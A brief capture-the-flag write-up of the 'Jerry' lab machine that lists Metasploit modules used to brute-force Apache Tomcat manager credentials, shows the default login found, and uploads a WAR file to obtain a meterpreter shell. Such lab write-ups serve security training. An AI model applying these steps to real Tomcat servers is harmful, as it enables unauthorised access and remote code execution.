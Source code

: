 # Jerry Write-Up

Easy

Tags: 
`Easy`
`External`
`Tomcat`
`Java`
`Penetration Tester Level 1`
`Remote Code Execution`
`A05:2021-Security Misconfiguration`
`Default Credentials`
`Malicious WAR File Upload`

## Intro

1. Brute-force Credential Apache Tomcat
2. Exploit Apache Tomcat

## Enumeration

### Port scanning

```
PORT     STATE SERVICE
8080/tcp open  http-proxy
```

### Exploit

Brute-force Credential

```
use auxiliary/scanner/http/tomcat_mgr_login
```

rhosts, rport > run

```
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
```

Exploit Apache Tomcat

```
use exploit/multi/http/tomcat_mgr_upload
```

```
meterpreter > shell
```
